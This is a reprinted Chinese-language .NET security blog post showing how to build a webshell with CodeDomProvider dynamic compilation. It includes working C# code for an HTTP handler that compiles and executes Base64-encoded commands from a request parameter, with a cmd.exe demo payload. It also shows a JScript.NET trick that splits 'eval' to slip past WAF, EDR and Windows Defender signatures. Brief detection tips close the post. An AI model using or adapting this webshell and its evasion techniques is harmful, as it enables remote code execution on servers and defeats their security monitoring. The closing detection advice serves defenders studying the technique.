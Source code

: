 ```yaml
---
title: 基于.NET动态编译技术实现任意代码执行
slug: be-based-on-dotNet-dynamic-compilation-technology-to-realize-arbitrary-code-execution
description: .Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类
date: 2022-05-15 23:15:14
copyright: Reprinted
author: Ivan1ee dotNet安全矩阵
originaltitle: 基于.NET动态编译技术实现任意代码执行
originallink: https://mp.weixin.qq.com/s/eZgnxEihQu-KULLeLJatCw
draft: False
cover: https://img1.dotnet9.com/2022/05/cover44.gif
categories: .NET
tags: 动态编译
---
```


![](https://img1.dotnet9.com/2022/05/cover44.gif)

## 一、前言

当下主流的Waf或Windows Defender等终端杀软、EDR大多都是从特征码查杀，在.Net和VBS下一句话木马中最常见的特征是eval，对于攻击者来说需要避开这个系统关键字，可从反序列化方式避开eval，但公开已久相信很多安全产品已经能够很好检测和阻断这类攻击请求。笔者从.NET 内置的CodeDomProvider类下手实现动态编译.NET代码，指明JScrip或者C#作为编译语言，编译的WebShell目前`Windows Defender不会查杀`。而防御者从流量或终端识别 "CodeDomProvider.CreateProvider、CreateInstance"等特征码。

## 二、动态编译

.Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类`CodeDomProvider` 和 `CompilerParameters`，前者相当于编译器，后者相当于编译器参数，CodeDomProvider支持多种语言（如C#、VB、Jscript），编译器参数CompilerParameters.GenerateExecutable默认表示生成dll，`GenerateInMemory= true`时表示在内存中加载，CompileAssemblyFromSource表示程序集的数据源，再将编译产生的结果生成程序集供反射调用。最后通过CreateInstance实例化对象并反射调用自定义类中的方法。

```csharp
CodeDomProvider compiler = CodeDomProvider.CreateProvider("C#"); ;     //编译器
CompilerParameters comPara = new CompilerParameters();   //编译器参数
comPara.ReferencedAssemblies.Add("System.dll"); //添加引用
comPara.GenerateExecutable = false; //生成exe
comPara.GenerateInMemory = true; //内存中
CompilerResults compilerResults = compiler.CompileAssemblyFromSource(comPara, SourceText(txt)); //编译数据的来源
Assembly objAssembly = compilerResults.CompiledAssembly; //编译成程序集
object objInstance = objAssembly.CreateInstance("Neteye.NeteyeInput"); //创建对象
MethodInfo objMifo = objInstance.GetType().GetMethod("OutPut"); //反射调用方法
var result = objMifo.Invoke(objInstance, null);
```

## 三、落地实现

上述代码里的SourceText方法需提供编译的C#源代码，笔者创建了NeteyeInput类，如下

```csharp
public static string SourceText(string txt)
{
    StringBuilder sb = new StringBuilder();
    sb.Append("using System;");
    sb.Append(Environment.NewLine);
    sb.Append("namespace  Neteye");
    sb.Append(Environment.NewLine);
    sb.Append("{");
    sb.Append(Environment.NewLine);
    sb.Append("    public class NeteyeInput");
    sb.Append(Environment.NewLine);
    sb.Append("    {");
    sb.Append(Environment.NewLine);
    sb.Append("        public void OutPut()");
    sb.Append(Environment.NewLine);
    sb.Append("        {");
    sb.Append(Environment.NewLine);
    sb.Append(Encoding.GetEncoding("UTF-8").GetString(Convert.FromBase64String(txt)));
    sb.Append(Environment.NewLine);
    sb.Append("        }");
    sb.Append(Environment.NewLine);
    sb.Append("    }");
    sb.Append(Environment.NewLine);
    sb.Append("}");
    string code = sb.ToString();
    return code;
}
```

类里声明了OutPut方法，该方法里通过Base64解码得到输入的原生字符串，笔者在这里以计算器作为演示，将`“System.Diagnostics.Process.Start("cmd.exe","/c calc");”`编码为

```shell
U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
```

最后在一般处理程序ProcessRequest方法中调用

```csharp
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    if (!string.IsNullOrEmpty(context.Request["txt"]))
    {
        DynamicCodeExecute(context.Request["txt"]); //start calc: U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
        context.Response.Write("Execute Status: Success!");
    }
    else
    {
        context.Response.Write("Just For Fun, Please Input txt!");
    }
}
```

![](https://img1.dotnet9.com/2022/05/4401.png)

## 四、其他方法

Jscript.Net 动态编译拆解eval

在.NET安全领域中一句话木马主流的都是交给eval关键词执行，而很多安全产品都会对此重点查杀，所以笔者需要`避开eval`，而在.NET中eval只存在于Jscript.Net，所以需要将动态编译器指定为Jscript，其余和C#版本的动态编译基本一致，笔者通过插入无关字符将eval拆解掉，代码如下

```csharp
private static readonly string _jscriptClassText =
        @"import System;
            class JScriptRun
            {
                public static function RunExp(expression : String) : String
                {
                    return e/*@Ivan1ee@*/v/*@Ivan1ee@*/a/*@Ivan1ee@*/l(expression);
                }
            }";
```

只需在编译的时候替换掉无关字符串“/*@Ivan1ee@*/”，最后编译后反射执行目标方法。

```csharp
CompilerResults results = compiler.CompileAssemblyFromSource(parameters, _jscriptClassText.Replace("/*@Ivan1ee@*/",""));
```

## 五、防御措施

- 一般web应用使用场景不多，检测特征码：CodeDomProvider.CreateProvider、CreateInstance等等，一旦告警需格外关注；

- 由于编译生成的程序集以临时文件保存在硬盘，需加入对可写目录下dll文件内容的监控；

- 文章涉及的代码已经打包在: [https://github.com/Ivan1ee/.NETWebShell](https://github.com/Ivan1ee/.NETWebShell)